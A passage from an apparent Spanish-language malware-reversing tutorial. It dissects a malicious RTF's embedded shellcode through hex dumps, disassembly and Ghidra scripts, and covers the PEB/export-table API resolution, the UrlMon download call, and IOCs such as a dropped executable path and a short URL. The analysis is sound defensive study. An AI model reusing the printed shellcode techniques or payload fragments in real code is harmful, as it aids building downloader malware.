00000410: bb f3 1c 08 3c 40 45 f5 e5 a5 bc 20 80 00 46 6f  ....<@E.... ..Fo
00000420: a6 f0 00 00 00 00                                ......
                   
```

**<mark>Este volcado ya permite separar claramente dos capas:</mark>**
- <mark>`F_2.ole` contiene código `x86` con cadenas `inline` y resolución dinámica.</mark>
- <mark>`F_1.ole/objdata_356_decoded.bin` contienen otra zona muy parecida, pero con parte de las cadenas o datos ofuscados.</mark>


------

## **7.1 F_2.ole contiene código x86 real con cadenas inline**
**La zona importante empieza aquí:**
```
000038e0: ... 44 81 ec 38 02 00 00 e8 12 00 00 00
000038f0: 02 00 00 e8 12 00 00 00 6b 00 65 00 72 00 6e 00
00003900: 65 00 6c 00 33 00 32 00 00 00 ...
```
**Esto contiene:**
```
kernel32
LoadLibraryW
GetProcAddress
Expand...
```
**La cadena kernel32 está en UTF-16LE:**
```
6b 00 65 00 72 00 6e 00 65 00 6c 00 33 00 32 00 00 00
 k  .  e  .  r  .  n  .  e  .  l  .  3  .  2  .  .  .
```
**Después aparecen ASCII normales:**
```
00003910: ... 4c 6f 61 64 4c 69 62 72 61 72 79 57 00
                 L  o  a  d  L  i  b  r  a  r  y  W \0

00003930: 47 65 74 50 72 6f 63 41 64 64 72 65 73 73 00
          G  e  t  P  r  o  c  A  d  d  r  e  s  s \0
```
**<mark>Esto ya demuestra que `F_2.ole` sí contiene varios IOCs que no estaban en `objdata_356_decoded.bin`.</mark>**

-----

## **7.2 Patrón importante: call + datos inline**

**En F_2.ole se ve este patrón:**
```
e8 12 00 00 00
6b 00 65 00 72 00 6e 00 65 00 6c 00 33 00 32 00 00 00
```
**Eso es una técnica típica de shellcode/payload position-independent:**
```
call siguiente_codigo
db "kernel32", 0
```
La instrucción call mete en la pila la dirección de retorno, que en este caso apunta a la cadena inline. **Así el código puede obtener la dirección de la cadena sin depender de una dirección absoluta.** Esto significa que **<mark>el payload está usando las cadenas como datos embebidos dentro del propio flujo de ejecución.</mark>**

Esto explica por qué una herramienta puede ver algunas cadenas y otras no: **No son una tabla de strings limpia, sino datos mezclados con código.**

-----

## **7.3 F_2.ole implementa resolución dinámica de APIs**

**La parte de F_2.ole indica claramente:**
```
kernel32
LoadLibraryW
GetProcAddress
```
**Esto significa:**
```
localizar/cargar kernel32;
resolver LoadLibraryW;
resolver GetProcAddress;
usar esas funciones para cargar otras DLLs y resolver otras APIs.
```
**Después aparece algo que empieza como:**
```
ExpandEnp...
```
**en esta zona:**
```
00003940: e8 d5 01 00 00 89 c6 e8 1a 00 00 00 45 78 70 61
00003950: 6e 64 45 6e 70 00 00 05 50 07 20 06 c0 04 d0 06
```
**Esto parece un bloque de datos inline que probablemente debería corresponder a algo como:**
```
ExpandEnvironmentStringsW
```
pero no aparece completo en claro. Parte está legible y parte parece codificada, transformada o mezclada con bytes no imprimibles.


----

## **7.4 A partir de 0x396a hay rutina de comparación/resolución**
**Esta zona es especialmente interesante:**
```
00003970: 46 f7 76 e6 c6 f6 16 45 46 f4 13 66 83 f8 5a 77
00003980: 0d 66 83 f0 20 66 3b 02 74 02 eb 02 eb 04 31 c0
00003990: eb 0e 83 c1 02 83 c2 02 0f b6 01 eb c2 83 c8 01
```
Aquí se ven instrucciones con prefijo `66`, comparaciones y operaciones sobre caracteres. Esta parte parece una rutina de comparación de cadenas, probablemente con normalización de mayúsculas/minúsculas.

**Después, en 0x39a0, aparece una rutina típica de parsing de PE/export table:**
```
000039a0: 5a c2 08 00 53 52 56 57 8b 54 24 14 8b 42 3c 8d
000039b0: 44 02 78 8b 00 01 d0 50 8b 48 18 8b 58 20 01 d3
```
**Elementos relevantes:**
```
mov eax, [edx+0x3c]      ; e_lfanew del PE
...
mov ecx, [eax+0x18]      ; NumberOfNames
mov ebx, [eax+0x20]      ; AddressOfNames
```
**Esto es característico de código que recorre la tabla de exportaciones de una DLL para resolver funciones.**

**<mark>Conclusión: `F_2.ole` contiene una rutina de resolución dinámica de APIs.</mark>**


----

## **7.5 F_1.ole y objdata_356_decoded.bin contienen la misma zona**
**Comparamos estas dos salidas:**
```
F_1.ole
00006150: ... 55 00 72 00 6c 00 4d 00 6f 00 6e 00 00 00
00006170: 4c 44 6f 77 6e 6c 6f 61 64 54 6f 41 36 68 3f
objdata_356_decoded.bin
00000360: ... 55 00 72 00 6c 00 4d 00 6f 00 6e 00 00 00
00000370: ... 55 52 4c 44 6f 77 6e 6c 6f 61 64 54 6f 41 36 68 3f
```
Son el mismo bloque, sólo que en offsets distintos.

**La diferencia aproximada es:**
```
F_1.ole offset ≈ objdata_356_decoded.bin offset + 0x5df2
```
Así que **`objdata_356_decoded.bin` parece ser una porción extraída de `F_1.ole`**, no un artefacto independiente con toda la lógica.


------

## **7.6 Interpretación de UrlMon y URLDownloadToA6h?**

En F_1.ole / objdata_356_decoded.bin aparece:
```
UrlMon
URLDownloadToA6h?
```
**UrlMon está claro:**
```
55 00 72 00 6c 00 4d 00 6f 00 6e 00 00 00
U  .  r  .  l  .  M  .  o  .  n  .  .  .
```
**Justo antes de la cadena parcial aparece:**
```
ff d7
e8 13 00 00 00
```
**ff d7 es:**
```
call edi
```
**Si en F_2.ole edi queda asociado a `LoadLibraryW`, entonces esto encaja muy bien:**
```
carga UrlMon;
intenta resolver una función que empieza por URLDownloadTo...;
usa esa API para descargar algo.
```
**La cadena:**
```
URLDownloadToA6h?
```
**no parece un simple error de strings. En el hex está realmente así:**
```
55 52 4c 44 6f 77 6e 6c 6f 61 64 54 6f 41 36 68 3f
U  R  L  D  o  w  n  l  o  a  d  T  o  A  6  h  ?
```
Por tanto, **<mark>en este bloque no existe literalmente URLDownloadToFileW. Hay una cadena parcial o codificada. El código posterior probablemente la transforma o utiliza solo una parte para resolver la API.</mark>**


## **7.7 Conclusiones**

**El análisis de los objetos extraídos del RTF muestra que los indicadores se encuentran repartidos en distintos `blobs`.** El fichero `objdata_356_decoded.bin` no contiene todos los IOCs, sino únicamente una cadena Unicode `UrlMon` y una cadena ASCII parcial `URLDownloadToA6h?`, compatible con funcionalidad de descarga mediante `urlmon.dll`.

El objeto `F_2.ole` contiene una zona de código `x86` con cadenas inline como `kernel32`, `LoadLibraryW` y `GetProcAddress`. El patrón observado, basado en instrucciones `call` seguidas de datos `inline`, es típico de `shellcode position-independent`. Además, el código posterior recorre estructuras `PE`, incluyendo campos como `e_lfanew` y la tabla de exportaciones del PE (EAT), lo que indica resolución dinámica de APIs.

El objeto `F_1.ol`e contiene una región equivalente a la observada en `objdata_356_decoded.bin`, pero desplazada dentro de un contenedor mayor. En dicha región se observa la carga de `UrlMon` y una referencia parcial a `URLDownloadTo`, lo que sugiere que el payload resuelve dinámicamente funciones de `urlmon.dll` para realizar la descarga de un fichero remoto.

Por tanto, la ausencia de todos los IOCs al analizar sólo `objdata_356_decoded.bin` se debe a que los indicadores están repartidos entre varios objetos extraídos y algunas cadenas no aparecen completas en texto claro.

```
F_2.ole = resolución dinámica de APIs.
F_1.ole / objdata_356_decoded.bin = carga de UrlMon y referencia a URLDownloadTo.
```


-----

# **8. Automatizando tareas: Ghidra**

## **8.1 Observamos cómo se ve desde Ghidra `F_2.ole`**

Ghidra necesita ayuda manual porque el objeto es raw binary y no tiene cabecera PE, no hay entry point y Ghidra no sabe automáticamente dónde empieza el código. Para solucionar esto vamos a ir al offset 🠲 Pulsamos `g` y escribimos: `0x38ed` 🠲 Forzamos el desensamblado: Estando en el offset `0x38ed`, pulsamos `d`, con el botón derecho `Disassemble`  🠲 Creamos una función: En la misma dirección `0x38ed`, pulsamos `f`, o botón derecho `Create Function`  🠲 Ponemos el nombre `api_resolver_start`:




**Marcar kernel32 como UTF-16LE**: En la dirección `0x38f8`, vemos bytes como: `6b 00 65 00 72 00 6e 00 65 00 6c 00 33 00 32 00 00 00`. Eso es: `kernel32` en `UTF-16LE`. Nos situamos en `0x38f8` -- Seleccionamos desde 0x38f8 hasta 0x3909 incluido. -- Botón derecho: Clear Code Bytes --- Luego, estando en 0x38f8, botón derecho: Data → Terminated Unicode o, si aparece como opción: Data → Unicode String --- Opcional: podemos porner una etiqueta: s_kernel32_w Con tecla L o botón derecho: Label.






## **8.2 Detalle de la resolución dinámica de APIs**  


**Donde:**
```
000039a8  MOV  EDX,dword ptr [ESP + 0x14]
000039ac  MOV  EAX,dword ptr [EDX + 0x3c]
000039af  LEA  EAX,[EDX + EAX*0x1 + 0x78]
000039b3  MOV  EAX,dword ptr [EAX]
000039b5  ADD  EAX,EDX
000039b8  MOV  ECX,dword ptr [EAX + 0x18]
000039bb  MOV  EBX,dword ptr [EAX + 0x20]
000039be  ADD  EBX,EDX
```

**Interpretación:**
```
EDX = base del módulo PE
[EDX + 0x3c] = IMAGE_DOS_HEADER.e_lfanew
EDX + e_lfanew + 0x78 = dirección del Data Directory de exports en PE32
[EAX] = RVA del directorio de exportaciones
EAX + EDX = dirección real del IMAGE_EXPORT_DIRECTORY
[EAX + 0x18] = NumberOfNames
[EAX + 0x20] = AddressOfNames
```
vemos que el código recorre estructuras PE y la tabla de exportaciones.


**El bucle que recorre nombres exportados:**
```
000039c2  TEST ECX,ECX
000039c4  JZ   LAB_00003a03
000039c7  PUSH ECX
000039c8  MOV  ECX,dword ptr [EBX]
000039ca  LEA  ECX,[ECX + EDX*0x1]
...
000039d6  SCASB.REPE ES:EDI
...
000039db  CMPSB.REPE ES:EDI,ESI
```

En la rutina localizada en `F_2.ole` se observa código que accede a estructuras internas PE en memoria. La instrucción `mov eax, [edx+0x3c]` recupera el campo `e_lfanew` de la cabecera DOS del módulo cargado. Posteriormente, el código calcula `base + e_lfanew + 0x78`, lo que apunta al directorio de exportaciones en PE32. A continuación, accede a campos del `IMAGE_EXPORT_DIRECTORY`, como `NumberOfNames` (`[eax+0x18]`) y `AddressOfNames` (`[eax+0x20]`), y recorre los nombres exportados para resolver funciones dinámicamente. **<mark>Esto confirma que el payload no depende de una IAT convencional, sino que implementa resolución manual de APIs.</mark>**


## **8.3 Script Python para ghidra que analiza el RTF**
Script para Ghidra/Ghidrathon [ghidra_rtf_hex_auto_deobfuscator.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/ghidra_rtf_hex_auto_deobfuscator.py) que analiza el RTF original como Raw Binary.

Este script se utiliza sobre el **RTF original importado en Ghidra como Raw Binary**. Su función es buscar automáticamente bloques largos de hexadecimal textual dentro del documento, decodificarlos a bytes reales y extraer cadenas `ASCII` y `UTF-16LE` sin partir de una lista previa de APIs o IOCs. Además, guarda los blobs decodificados y genera un CSV con las cadenas extraídas. También añade comentarios, bookmarks y labels en Ghidra para las cadenas que considera interesantes. `:contentReference[oaicite:0]{index=0}`

Uso recomendado:
```text
RTF original → localizar y decodificar automáticamente cadenas ocultas como hexadecimal textual.
```




## **8.4 Script Python que busca apis determinadas**
Script para Ghidra/Ghidrathon para facilitar el análisis en Ghidra, creamos un script [ghidra_rtf_hex_ioc_decoder.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/ghidra_rtf_hex_ioc_decoder.py) compatible con Ghidrathon/Python 3 que busca una lista concreta de IOCs conocidos que se obtuvieron en el paso anterior. Detecta las cadenas en cuatro formatos: ASCII directo, UTF-16LE directo, ASCII codificado como hexadecimal textual y UTF-16LE codificado como hexadecimal textual. Cuando encuentra una coincidencia, añade comentario, bookmark y label en la dirección correspondiente.

Uso recomendado:
```text
RTF original o blobs extraídos → confirmar IOCs ya conocidos como kernel32, LoadLibraryW, UrlMon, URLDownloadToFileW, %PUBLIC%\908.exe o http://bit.ly/34vzFlU.
```




## **8.5 Script Python que marca offsets ya confirmados manualmente**
El script para Ghidra/Ghidrathon [mark_api_strings_ok.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/mark_api_strings_ok.py) no busca de forma genérica. Marca únicamente offsets ya confirmados manualmente en artefactos concretos como `F_2.ole`, `F_1.ole`, `objdata_356_decoded.bin` y `bin_350_decoded.bin`. Antes de crear una cadena en Ghidra, verifica que los bytes esperados coinciden con los bytes reales. Después limpia la zona, crea el dato como string ASCII, UTF-16LE o array de chars, y añade una etiqueta descriptiva.

Uso recomendado:
```text
F_2.ole / F_1.ole / objdata_356_decoded.bin → limpiar Ghidra y marcar correctamente cadenas inline ya verificadas.
```




## **8.6 Script Python que detecta patrones `CALL rel32`**
Este script auxiliar para Ghidra/Ghidrathon [detect_inline_call_strings.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/detect_inline_call_strings.py) detecta patrones `CALL rel32` seguidos de cadenas inline. Este patrón es habitual en shellcode position-independent, donde la instrucción `CALL` permite obtener la dirección de una cadena embebida en el propio flujo de ejecución. El script identifica la cadena, la marca como dato ASCII o UTF-16LE, añade labels y comentarios, y facilita separar código real de datos embebidos.





## **8.7 Conclusiones**
Los scripts desarrollados son reutilizables en otros análisis de malware, especialmente en documentos RTF que almacenen objetos o cadenas como hexadecimal textual y en blobs de shellcode x86 con cadenas inline. No obstante, algunos scripts requieren adaptar la lista de IOCs o los offsets concretos de cada muestra, por lo que deben emplearse como herramientas auxiliares y no como detectores genéricos.


Aunque el script [ghidra_rtf_hex_auto_deobfuscator.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/ghidra_rtf_hex_auto_deobfuscator.py) se desarrolló durante el análisis de una muestra RTF, su funcionamiento es genérico: localiza secuencias largas de hexadecimal textual dentro del fichero importado en Ghidra, las decodifica a bytes reales y extrae cadenas ASCII y UTF-16LE. Por tanto, puede reutilizarse en otras muestras que almacenen payloads o cadenas como texto hexadecimal. Casos donde sí puede servir:
| Tipo de muestra                  | ¿Puede servir? | Motivo                                        |
| -------------------------------- | -------------: | --------------------------------------------- |
| RTF                              |             Sí | Muy habitual que tenga objetos en hex textual |
| HTML/HTA                         |             Sí | Si contiene payloads en hex                   |
| JavaScript/VBScript              |             Sí | Si usa strings hexadecimales largas           |
| XML/Office Open XML              |             Sí | Si incluye blobs hex codificados              |
| Logs/dumps/textos con hex        |             Sí | Si hay secuencias hex largas                  |
| Binario raw con hex ASCII dentro |             Sí | Si contiene texto tipo `4d5a90...`            |


## **8.8 Script desofuscador heurístico multi-formato**

El script [ghidra_universal_string_deobfuscator.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/ghidra_universal_string_deobfuscator.py) es un **desofuscador heurístico multi-formato** para Ghidra/Ghidrathon. Su objetivo es automatizar una primera fase de triage estático buscando cadenas sospechosas que puedan estar en claro o codificadas mediante técnicas comunes.

**El script analiza el programa cargado en Ghidra y busca cadenas en distintos formatos:**
- Cadenas ASCII directas,
- cadenas UTF-16LE directas,
- bloques de hexadecimal textual,
- cadenas codificadas en Base64,
- secuencias escapadas tipo `\xNN`,
- secuencias URL encoded tipo `%XX`,
- datos comprimidos con zlib.

Descarta cadenas demasiado largas, bloques que parecen ser únicamente hexadecimal textual, fragmentos grandes de RTF como `\objdata` y resultados duplicados. También limita la cantidad de resultados impresos por consola y guarda una salida más limpia en CSV.

Cuando encuentra una cadena considerada interesante, por ejemplo una URL, una ruta, una DLL, una API de Windows o una referencia sospechosa como `download`, `shell`, `kernel`, `urlmon`, `LoadLibrary` o `GetProcAddress`, el script puede añadir automáticamente:
- Un comentario en Ghidra,
- un bookmark,
- una etiqueta descriptiva,
- una entrada en el CSV de resultados.

El objetivo del script no es actuar como un desofuscador universal real, sino facilitar el análisis inicial de muestras ofuscadas probando varias codificaciones comunes y mostrando únicamente los resultados más relevantes.

**Uso recomendado:**
```text
Muestras importadas en Ghidra como Raw Binary → búsqueda inicial de strings ocultas o codificadas.
```



